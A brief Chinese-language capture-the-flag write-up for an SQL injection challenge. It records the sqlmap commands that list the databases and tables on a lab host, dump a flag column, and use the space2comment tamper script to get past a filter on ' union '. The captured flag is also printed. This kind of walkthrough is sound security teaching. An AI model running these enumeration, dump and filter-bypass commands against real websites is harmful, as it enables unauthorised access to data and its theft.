



# SQL Injection

## Tag

sqlmap 工具
***
## Writeup

用命令行 `python sqlmap.py -u "http://10.214.160.13:10002/?questionid=1" --dbs` 可以得到后端数据库中的数据库名字：

可以得到里面有个 `aaa_web2`，再进一步用 `python sqlmap.py -u "http://10.214.160.13:10002/?questionid=1" -D aaa_web2 --tables` 得到里面的表格：

里面有一个 `flag_is_here`，进一步可以查看里面的项目，直接搜 flag 字段对应的：

得到最终的 flag：`AAA{welc0me_to_AAA_Congratu1ationS_qq_group_386796080}`

对于题目所指的加分项，如果出现 ` union `（带空格），可以使用 sqlmap 中的 tamper 功能解决，运用命令 `python sqlmap.py -u "http://10.214.160.13:10002/?questionid=1" --tamper=space2comment.py -D aaa_web2 -T flag_is_here -C flag --dump` 绕过这个限制：

